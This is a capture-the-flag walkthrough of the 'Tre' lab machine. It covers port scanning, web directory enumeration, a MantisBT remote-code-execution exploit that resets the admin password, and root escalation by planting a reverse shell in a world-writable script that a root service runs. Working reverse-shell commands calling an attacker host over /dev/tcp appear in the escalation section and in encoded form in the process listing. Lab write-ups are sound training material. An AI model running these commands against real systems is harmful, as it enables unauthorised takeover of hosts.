



# Tre 

## Let's start !!

First, we set an IP variable

````````bash
export IP=192.168.149.84
````````

### Scanning 

As always we start with rustscan I like its style and it instantly gives a response after discovering an open port. The drawback is that we cannot scan it for UDP.

````````bash
rustscan -a $IP -- -A -sC -sV -oN nmap.txt
````````

````````bash
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
Faster Nmap scanning with Rust.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 192.168.149.84:22
Open 192.168.149.84:80
Open 192.168.149.84:8082
[~] Starting Nmap
[>] The Nmap command to be run is nmap -A -sC -sV -oN nmap.txt -vvv -p 22,80,8082 192.168.149.84

Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-09 03:51 IST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:51
Completed NSE at 03:51, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:51
Completed NSE at 03:51, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:51
Completed NSE at 03:51, 0.00s elapsed
Initiating Ping Scan at 03:51
Scanning 192.168.149.84 [4 ports]
Completed Ping Scan at 03:51, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 03:51
Completed Parallel DNS resolution of 1 host. at 03:51, 0.06s elapsed
DNS resolution of 1 IPs took 0.06s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 03:51
Scanning 192.168.149.84 [3 ports]
Discovered open port 80/tcp on 192.168.149.84
Discovered open port 22/tcp on 192.168.149.84
Discovered open port 8082/tcp on 192.168.149.84
Completed SYN Stealth Scan at 03:51, 0.22s elapsed (3 total ports)
Initiating Service scan at 03:51
Scanning 3 services on 192.168.149.84
Completed Service scan at 03:51, 6.35s elapsed (3 services on 1 host)
Initiating OS detection (try #1) against 192.168.149.84
Retrying OS detection (try #2) against 192.168.149.84
Initiating Traceroute at 03:51
Completed Traceroute at 03:51, 0.17s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 03:51
Completed Parallel DNS resolution of 2 hosts. at 03:51, 0.06s elapsed
DNS resolution of 2 IPs took 0.06s. Mode: Async [#: 1, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
NSE: Script scanning 192.168.149.84.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:51
Completed NSE at 03:51, 5.18s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:51
Completed NSE at 03:51, 0.69s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:51
Completed NSE at 03:51, 0.00s elapsed
Nmap scan report for 192.168.149.84
Host is up, received reset ttl 63 (0.17s latency).
Scanned at 2022-09-09 03:51:41 IST for 18s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 99:1a:ea:d7:d7:b3:48:80:9f:88:82:2a:14:eb:5f:0e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHMd6tbRI/GrqZQaWx7CAYYD22gD6KeVl/sZdKJTi7duDnBz3FqxHZBdk4mMTvupWZDLyB9/sGkb99ptqZ1TZNn+86sWvQTFR7vV+9PAQGIDs82Jta/NO9XORx3wkNVunxCaw9Iwf9AxlbY6Vc1Ot6ydEMUHo1Ha1G1i+9h5kh/7InJRF6HZgb0zmbV4n2lWWgye0dR5bLKjt/5QcKGFdv40fOIRv2/jWv/DWHJRCxRS8bS5LBfFXgdWRvu+sxeQbdzDXqCow2FeMcHQiNuuVpnrmnFAg7GdrA36srgnXO2ZXEGijFZehfnINkdUnqGMYY4kb03nDDZPO29Ami/zQP
|   256 f4:f6:9c:db:cf:d4:df:6a:91:0a:81:05:de:fa:8d:f8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDp3d72lJQsYyph4NbauO2u1nMokOTYcPPWH193ps7xb1euNLKSjJp1OtEwuhzu3lvUGxEQU3ISm9uj2g1sr0lk=
|   256 ed:b9:a9:d7:2d:00:f8:1b:d3:99:d6:02:e5:ad:17:9f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMuyBmHN7xrwj6KcGc2WT2NP0jIsGmRxMZkCBkr2SKrB
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.38 ((Debian))
|_http-title: Tre
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
8082/tcp open  http    syn-ack ttl 63 nginx 1.14.2
|_http-title: Tre
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 2.6.18 (91%), Linux 4.15 - 5.6 (90%), Linux 5.0 (90%), Linux 2.6.32 (90%), Linux 2.6.32 or 3.10 (90%), Linux 2.6.39 (90%), Linux 3.10 - 3.12 (90%), Linux 3.4 (90%), Linux 3.5 (90%), Linux 3.7 (90%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=9/9%OT=22%CT=%CU=31674%PV=Y%DS=2%DC=T%G=N%TM=631A6B07%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=10C%TI=Z%II=I%TS=A)
SEQ(SP=104%GCD=1%ISR=10C%TI=Z%TS=C)
OPS(O1=M54EST11NW7%O2=M54EST11NW7%O3=M54ENNT11NW7%O4=M54EST11NW7%O5=M54EST11NW7%O6=M54EST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54ENNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 4.982 days (since Sun Sep  4 04:18:03 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   171.31 ms 192.168.49.1
2   171.55 ms 192.168.149.84

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 03:51
Completed NSE at 03:51, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 03:51
Completed NSE at 03:51, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 03:51
Completed NSE at 03:51, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.73 seconds
           Raw packets sent: 106 (8.346KB) | Rcvd: 59 (5.658KB)

````````
so we have ports 22,80,8082 open. I have enumerated port 80 (HTTP) because there is nothing on port 22 (ssh) 8082 (nginx)

### Web Enumration 

````````bash
feroxbuster -u http://192.168.149.84:80/ -t 100 -w /root/.config/AutoRecon/wordlists/dirbuster.txt -x "txt,html,php,asp,aspx,jsp,js,bak" -v -k -n -q -e -o "feroxbuster_dirbuster.txt"
````````

````````python
200      GET        8l       15w      164c http://192.168.149.84/
301      GET        9l       28w      314c http://192.168.149.84/cms => http://192.168.149.84/cms/
200      GET        8l       15w      164c http://192.168.149.84/index.html
200      GET     1038l     5369w        0c http://192.168.149.84/info.php
403      GET        9l       28w      279c http://192.168.149.84/server-status
401      GET       14l       54w      461c http://192.168.149.84/system
200      GET       50l      249w     4655c http://192.168.149.84/adminer.php
301      GET        9l       28w      319c http://192.168.149.84/mantisbt => http://192.168.149.84/mantisbt/

````````
Here we have `cms` `system` `adminer.php` `mantisbt`. I have researched and found an RCE in mantis bt.

Reference:- https://www.exploit-db.com/exploits/48818 

### Exploitation

We need to edit the exploit and it's some perimeter.



just change these and run the exploit with python2 

## NOTE:- Before running the exploit start your listener

````````bash
python2 48818.py
````````

````````bash
Successfully hijacked account!
Successfully logged in!
Triggering reverse shell
Cleaning up
Deleting the dot_tool config.
Deleting the relationship_graph_enable config.
Successfully cleaned up
````````
The administrator password has been reset to `password` and we have a shell back.

````````python
pwncat-cs -lp 4444
[04:10:42] Welcome to pwncat 🐈!                                                                                                                             __main__.py:164
[04:10:47] received connection from 192.168.149.84:46260                                                                                                          bind.py:84
[04:10:52] 192.168.149.84:46260: registered new host w/ db                                                                                                    manager.py:957
(local) pwncat$                                                                                                                                                             
(remote) www-data@tre:/var/www/html/mantisbt$ whoami
www-data
(remote) www-data@tre:/var/www/html/mantisbt$ 

````````
we are www-data for now let's enumerate mantisbt. 



login with our new credentials `administrator: password` and enumerate it. maybe there is some exciting information.



we find credentials of tre. let's change our user www-data to tre and get our first flag.

````````python
(remote) www-data@tre:/var/www/html/mantisbt$ su tre
Password: 
tre@tre:/var/www/html/mantisbt$ whoami
tre
tre@tre:/var/www/html/mantisbt$ cd
tre@tre:~$ ls
local.txt
tre@tre:~$ cat local.txt 
4d832907592eb70cb182f2caaa24d4d2
tre@tre:~$ 

````````

### Privilage Esculation

````````python
(remote) tre@tre:/home/tre$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
(remote) tre@tre:/home/tre$

````````
`/sbin/shutdown` is running with root privileges let's manipulate it but how?... let's check what is actually happening behind the scene with pspy64.

````````python
(local) pwncat$ upload /opt/pspy/pspy64
./pspy64 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 3.1/3.1 MB • 3.2 MB/s • 0:00:00
[04:29:47] uploaded 3.08MiB in 6.27 seconds                                                                                                                     upload.py:76
(local) pwncat$                                                                                                                                                             
(remote) tre@tre:/home/tre$ chmod +x pspy64 
(remote) tre@tre:/home/tre$ ./pspy64 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2022/09/08 19:00:02 CMD: UID=0    PID=91     | 
2022/09/08 19:00:02 CMD: UID=0    PID=9      | 
2022/09/08 19:00:02 CMD: UID=0    PID=8469   | 
2022/09/08 19:00:02 CMD: UID=1000 PID=8458   | ./pspy64 
2022/09/08 19:00:02 CMD: UID=0    PID=8435   | 
2022/09/08 19:00:02 CMD: UID=0    PID=8243   | 
2022/09/08 19:00:02 CMD: UID=0    PID=82     | 
2022/09/08 19:00:02 CMD: UID=0    PID=81     | 
2022/09/08 19:00:02 CMD: UID=1000 PID=8024   | bash 
2022/09/08 19:00:02 CMD: UID=1000 PID=8020   | (sd-pam) 
2022/09/08 19:00:02 CMD: UID=1000 PID=8019   | /lib/systemd/systemd --user 
2022/09/08 19:00:02 CMD: UID=33   PID=8012   | su tre 
2022/09/08 19:00:02 CMD: UID=0    PID=80     | 
2022/09/08 19:00:02 CMD: UID=0    PID=8      | 
2022/09/08 19:00:02 CMD: UID=0    PID=79     | 
2022/09/08 19:00:02 CMD: UID=0    PID=7898   | 
2022/09/08 19:00:02 CMD: UID=0    PID=78     | 
2022/09/08 19:00:02 CMD: UID=0    PID=77     | 
2022/09/08 19:00:02 CMD: UID=0    PID=76     | 
2022/09/08 19:00:02 CMD: UID=0    PID=7583   | 
2022/09/08 19:00:02 CMD: UID=0    PID=75     | 
2022/09/08 19:00:02 CMD: UID=0    PID=74     | 
2022/09/08 19:00:02 CMD: UID=0    PID=73     | 
2022/09/08 19:00:02 CMD: UID=33   PID=7228   | /usr/bin/bash 
2022/09/08 19:00:02 CMD: UID=33   PID=7227   | sh -c /usr/bin/bash 
2022/09/08 19:00:02 CMD: UID=33   PID=7226   | /usr/bin/script -qc /usr/bin/bash /dev/null 
2022/09/08 19:00:02 CMD: UID=0    PID=72     | 
2022/09/08 19:00:02 CMD: UID=33   PID=7198   | bash -i 
2022/09/08 19:00:02 CMD: UID=33   PID=7197   | /bin/bash 
2022/09/08 19:00:02 CMD: UID=33   PID=7194   | sh -c echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjE0OS80NDQ0IDA+JjE= | base64 -d | /bin/bash; -Tpng 
2022/09/08 19:00:02 CMD: UID=0    PID=71     | 
2022/09/08 19:00:02 CMD: UID=0    PID=70     | 
2022/09/08 19:00:02 CMD: UID=0    PID=7      | 
2022/09/08 19:00:02 CMD: UID=0    PID=69     | 
2022/09/08 19:00:02 CMD: UID=0    PID=68     | 
2022/09/08 19:00:02 CMD: UID=0    PID=67     | 
2022/09/08 19:00:02 CMD: UID=33   PID=6623   | /usr/sbin/apache2 -k start 
2022/09/08 19:00:02 CMD: UID=0    PID=66     | 
2022/09/08 19:00:02 CMD: UID=0    PID=65     | 
2022/09/08 19:00:02 CMD: UID=0    PID=64     | 
2022/09/08 19:00:02 CMD: UID=0    PID=63     | 
2022/09/08 19:00:02 CMD: UID=33   PID=6224   | /usr/sbin/apache2 -k start 
2022/09/08 19:00:02 CMD: UID=0    PID=62     | 
2022/09/08 19:00:02 CMD: UID=33   PID=6138   | /usr/sbin/apache2 -k start 
2022/09/08 19:00:02 CMD: UID=33   PID=6110   | /usr/sbin/apache2 -k start 
2022/09/08 19:00:02 CMD: UID=0    PID=61     | 
2022/09/08 19:00:02 CMD: UID=33   PID=6033   | /usr/sbin/apache2 -k start 
2022/09/08 19:00:02 CMD: UID=33   PID=6013   | /usr/sbin/apache2 -k start 
2022/09/08 19:00:02 CMD: UID=0    PID=60     | 
2022/09/08 19:00:02 CMD: UID=0    PID=6      | 
2022/09/08 19:00:02 CMD: UID=33   PID=5964   | /usr/sbin/apache2 -k start 
2022/09/08 19:00:02 CMD: UID=33   PID=5948   | /usr/sbin/apache2 -k start 
2022/09/08 19:00:02 CMD: UID=33   PID=5939   | /usr/sbin/apache2 -k start 
2022/09/08 19:00:02 CMD: UID=33   PID=5914   | /usr/sbin/apache2 -k start 
2022/09/08 19:00:02 CMD: UID=0    PID=59     | 
2022/09/08 19:00:02 CMD: UID=0    PID=58     | 
2022/09/08 19:00:02 CMD: UID=0    PID=57     | 
2022/09/08 19:00:02 CMD: UID=33   PID=568    | nginx: worker process                            
2022/09/08 19:00:02 CMD: UID=0    PID=567    | nginx: master process /usr/sbin/nginx -g daemon on; master_process on; 
2022/09/08 19:00:02 CMD: UID=0    PID=565    | /usr/sbin/apache2 -k start 
2022/09/08 19:00:02 CMD: UID=0    PID=56     | 
2022/09/08 19:00:02 CMD: UID=106  PID=555    | /usr/sbin/mysqld 
2022/09/08 19:00:02 CMD: UID=0    PID=55     | 
2022/09/08 19:00:02 CMD: UID=0    PID=54     | 
2022/09/08 19:00:02 CMD: UID=0    PID=53     | 
2022/09/08 19:00:02 CMD: UID=0    PID=52     | 
2022/09/08 19:00:02 CMD: UID=0    PID=51     | 
2022/09/08 19:00:02 CMD: UID=0    PID=50     | 
2022/09/08 19:00:02 CMD: UID=0    PID=49     | 
2022/09/08 19:00:02 CMD: UID=0    PID=48     | 
2022/09/08 19:00:02 CMD: UID=0    PID=452    | /usr/sbin/sshd -D 
2022/09/08 19:00:02 CMD: UID=0    PID=435    | /sbin/agetty -o -p -- \u --noclear tty1 linux 
2022/09/08 19:00:02 CMD: UID=0    PID=4      | 
2022/09/08 19:00:02 CMD: UID=0    PID=392    | /usr/sbin/rsyslogd -n -iNONE 
2022/09/08 19:00:02 CMD: UID=104  PID=388    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only 
2022/09/08 19:00:02 CMD: UID=0    PID=387    | /lib/systemd/systemd-logind 
2022/09/08 19:00:02 CMD: UID=0    PID=386    | /bin/bash /usr/bin/check-system 
2022/09/08 19:00:02 CMD: UID=0    PID=384    | /usr/sbin/cron -f 
2022/09/08 19:00:02 CMD: UID=0    PID=376    | 
2022/09/08 19:00:02 CMD: UID=0    PID=375    | 
2022/09/08 19:00:02 CMD: UID=101  PID=315    | /lib/systemd/systemd-timesyncd 
2022/09/08 19:00:02 CMD: UID=0    PID=314    | /usr/bin/vmtoolsd 
2022/09/08 19:00:02 CMD: UID=0    PID=313    | /usr/bin/VGAuthService 
2022/09/08 19:00:02 CMD: UID=0    PID=30     | 
2022/09/08 19:00:02 CMD: UID=0    PID=3      | 
2022/09/08 19:00:02 CMD: UID=0    PID=29     | 
2022/09/08 19:00:02 CMD: UID=0    PID=284    | /lib/systemd/systemd-udevd 
2022/09/08 19:00:02 CMD: UID=0    PID=28     | 
2022/09/08 19:00:02 CMD: UID=0    PID=27     | 
2022/09/08 19:00:02 CMD: UID=0    PID=26     | 
2022/09/08 19:00:02 CMD: UID=0    PID=258    | /lib/systemd/systemd-journald 
2022/09/08 19:00:02 CMD: UID=0    PID=25     | 
2022/09/08 19:00:02 CMD: UID=0    PID=24     | 
2022/09/08 19:00:02 CMD: UID=0    PID=233    | 
2022/09/08 19:00:02 CMD: UID=0    PID=232    | 
2022/09/08 19:00:02 CMD: UID=0    PID=230    | 
2022/09/08 19:00:02 CMD: UID=0    PID=23     | 
2022/09/08 19:00:02 CMD: UID=0    PID=22     | 
2022/09/08 19:00:02 CMD: UID=0    PID=21     | 
2022/09/08 19:00:02 CMD: UID=0    PID=202    | 
2022/09/08 19:00:02 CMD: UID=0    PID=201    | 
2022/09/08 19:00:02 CMD: UID=0    PID=200    | 
2022/09/08 19:00:02 CMD: UID=0    PID=20     | 
2022/09/08 19:00:02 CMD: UID=0    PID=2      | 
2022/09/08 19:00:02 CMD: UID=0    PID=199    | 
2022/09/08 19:00:02 CMD: UID=0    PID=198    | 
2022/09/08 19:00:02 CMD: UID=0    PID=197    | 
2022/09/08 19:00:02 CMD: UID=0    PID=196    | 
2022/09/08 19:00:02 CMD: UID=0    PID=195    | 
2022/09/08 19:00:02 CMD: UID=0    PID=194    | 
2022/09/08 19:00:02 CMD: UID=0    PID=193    | 
2022/09/08 19:00:02 CMD: UID=0    PID=19     | 
2022/09/08 19:00:02 CMD: UID=0    PID=180    | 
2022/09/08 19:00:02 CMD: UID=0    PID=18     | 
2022/09/08 19:00:02 CMD: UID=0    PID=17     | 
2022/09/08 19:00:02 CMD: UID=0    PID=16     | 
2022/09/08 19:00:02 CMD: UID=0    PID=15     | 
2022/09/08 19:00:02 CMD: UID=0    PID=142    | 
2022/09/08 19:00:02 CMD: UID=0    PID=140    | 
2022/09/08 19:00:02 CMD: UID=0    PID=14     | 
2022/09/08 19:00:02 CMD: UID=0    PID=138    | 
2022/09/08 19:00:02 CMD: UID=0    PID=137    | 
2022/09/08 19:00:02 CMD: UID=0    PID=135    | 
2022/09/08 19:00:02 CMD: UID=0    PID=134    | 
2022/09/08 19:00:02 CMD: UID=0    PID=132    | 
2022/09/08 19:00:02 CMD: UID=0    PID=12     | 
2022/09/08 19:00:02 CMD: UID=0    PID=11     | 
2022/09/08 19:00:02 CMD: UID=0    PID=10     | 
2022/09/08 19:00:02 CMD: UID=0    PID=1      | /sbin/init 
2022/09/08 19:00:02 CMD: UID=0    PID=8470   | /bin/bash /usr/bin/check-system 
2022/09/08 19:00:03 CMD: UID=0    PID=8472   | /bin/bash /usr/bin/check-system 
2022/09/08 19:00:04 CMD: UID=0    PID=8473   | /bin/bash /usr/bin/check-system 
2022/09/08 19:00:05 CMD: UID=0    PID=8474   | /bin/bash /usr/bin/check-system 
2022/09/08 19:00:06 CMD: UID=0    PID=8475   | /bin/bash /usr/bin/check-system 
2022/09/08 19:00:07 CMD: UID=0    PID=8476   | /bin/bash /usr/bin/check-system
^CExiting program... (interrupt)
(remote) tre@tre:/home/tre$

````````
here we can see `/bin/bash /usr/bin/check-system` is running in the background which is a part of `/sbin/shutdown` and it has root privileges also. so we can add our reverse shell in and get to root..

```bash
sh -i >& /dev/tcp/Your_IP/Your_port 0>&1
```

````````python
(remote) tre@tre:/home/tre$ ls -la /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system
(remote) tre@tre:/home/tre$ nano /usr/bin/check-system
(remote) tre@tre:/home/tre$ cat /usr/bin/check-system

DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
bash -i >& /dev/tcp/192.168.49.149/8082 0>&1
done
(remote) tre@tre:/home/tre$ sudo -u root /sbin/shutdown -r 0
Shutdown scheduled for Thu 2022-09-08 19:21:00 EDT, use 'shutdown -c' to cancel.
(remote) tre@tre:/home/tre$ 
[04:51:00] warning: 192.168.149.84:22: connection reset                                                                                                       manager.py:957
(local) pwncat$

````````
Wait for a minute and we will get our reverse shell with root privileges. Just start your listener first.

````````python
pwncat-cs -lp 8082
[04:49:22] Welcome to pwncat 🐈!                                                                                                                             __main__.py:164
[04:51:15] received connection from 192.168.149.84:40152                                                                                                          bind.py:84
[04:51:19] 192.168.149.84:40152: registered new host w/ db                                                                                                    manager.py:957
(local) pwncat$                                             
(remote) root@tre:/# whoami
root
(remote) root@tre:/# cd /root
(remote) root@tre:/root# ls 
proof.txt  root.txt
(remote) root@tre:/root# cat proof.txt 
9d170ba7836423bad6d4a17e275b35b6
(remote) root@tre:/root#

````````
Now we own the system.

- DONE


